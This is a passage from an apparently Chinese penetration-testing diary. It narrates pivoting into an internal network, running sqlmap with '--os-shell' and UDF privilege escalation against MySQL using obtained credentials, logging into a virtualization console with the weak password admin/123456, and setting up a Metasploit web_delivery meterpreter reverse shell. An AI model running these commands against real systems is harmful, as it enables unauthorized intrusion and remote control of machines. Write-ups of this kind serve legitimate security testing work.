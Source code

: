 ![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s54vndlL3p7uXwhaBTyJ4b0zMZ2PnxDaEQLLhXtHKtODVzNzibQPvksHlUtLGyOo5LrkKZ6Sa0ThzoQ/640?wx_fmt=jpeg)

然后网站挂了。。等到晚上终于可以连了，不过代理出问题了，整了半天，原来是自己的 vpn 出问题了，换了个节点之后，frp 连接 socks5 成功。继续早上拿到的账号密码，mysql 一键连接数据库。

```
python sqlmap.py -d mysql://root:#password@192.168.xx.xx:3306/mysql --os-shell
```

（此命令会自动 udf 提权）

执行这条命令需要先安装两个插件。

```
pip install PyMySQL

pip instal sqlalchemy
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s54vndlL3p7uXwhaBTyJ4b0zqN5wFKUx7IIsf0BN4oIXZet3gGfQbENCsbcQuhRVzoIsCuvJxAiahbA/640?wx_fmt=jpeg)

拿到 os-shell 之后，执行命令。喵喵喵？（心态炸裂）

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s54vndlL3p7uXwhaBTyJ4b0zIJzIhMKkKUDtd2FxX9PicLFSrH8qIRBBM1kiauNnGa3MYaaibcrdYMvrQ/640?wx_fmt=jpeg)

然后多按了几次回车键，连接次数过多，ip 被锁定了，好的，这条路断了 - -

所以做渗透的心态得好... 不说了，去楼梯口冷静冷静先。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s54vndlL3p7uXwhaBTyJ4b0zm8htJXmLCWibqEG5uOFvQ8IbogR5iciaibBHib7PfBEZRX0ymCP3pTYfclA/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s54vndlL3p7uXwhaBTyJ4b0zkqsyibXvPXkN8YX6A4FePicJc47Rc9lr8tKtk2pJO6aYPqKlxKhxuRXQ/640?wx_fmt=jpeg)

再次查看一下 ssh 监听，管理员也一直没有上线，行叭行叭，管理员不管我，那我继续回到 goby 查看下内网的网站，挨个试试 web 端，许久之后...

功夫不负有心人，admin/123456 进去了一个虚拟化系统，显示有 21 台计算机。赚了，弱口令大法好！

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s54vndlL3p7uXwhaBTyJ4b0z3wWwvJXGaOnkicd8ZQx1g345yb3FYnhd81iaCf98xoEVV84TZ2uMVrlQ/640?wx_fmt=jpeg)

Msf 生成反弹 windows 的 powershell。

```
use exploit/multi/script/web\_delivery

set target 2

set payload windows/meterpreter/reverse\_tcp

set lhost 192.168.xx.xx

set lport 5101

set srvport 5202

set uripath /

run
```
